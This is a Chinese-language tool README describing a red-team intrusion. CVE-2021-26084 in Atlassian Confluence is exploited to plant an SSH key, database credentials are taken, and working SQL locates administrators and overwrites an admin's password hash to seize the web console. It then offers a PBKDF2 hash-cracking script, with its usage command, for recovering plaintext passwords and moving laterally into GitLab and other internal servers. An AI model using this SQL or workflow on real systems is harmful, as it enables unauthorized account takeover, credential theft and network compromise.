 # atlassian_pbkdf2_dehash
## 初衷
atlassian confluence产品，爆发CVE-2021-26084漏洞,在一次HW项目中内网目标机器不出网，通过CVE-2021-26084漏洞写入公钥，拿到服务器权限。在`<confluence-home-directory>/database`
文件夹中找到数据库账号密码。一种方法是通过查找管理员，通过修改hash值登陆web管理后台。具体方法如下：
```
## 获取管理员账号，id
select u.id, u.user_name, u.active from cwd_user u
join cwd_membership m on u.id=m.child_user_id join cwd_group g on m.parent_id=g.id join cwd_directory d on d.id=g.directory_id
where g.group_name = 'confluence-administrators' and d.directory_name='Confluence Internal Directory';
## 修改密码 123123
UPDATE cwd_user SET credential = '{PKCS5S2}V1J8HcMvYsdtnETu2tjA1gFVQ1L3o+dAsNiooSAcSvpRcbkTR8K4Ha/iWgF145gk'  
WHERE id=393217; 
```

## 问题
内网IT系统内部员工账号密码一样，而修改一个confluence密码无法登陆到其他系统，给横向移动带来麻烦。通过mysql数据库账号，pbkdf2 hash值。想到通过hash碰撞到方式，获取用户明文密码。
因此编写PBKDF2(Atlassian) hash atlassian_pbkdf2_dehash 碰撞方法，获得明文密码。最终通过明文密码，拿到gitlab 用户账号密码，查找代码配置文件，拿到多台服务器，打穿内网。

## 用法
```
python3 atlassian_pbkdf2_dehash.py -p <passwordfile> -f <hashfile>
```

## 运行结果图
![image](./img/img.png)
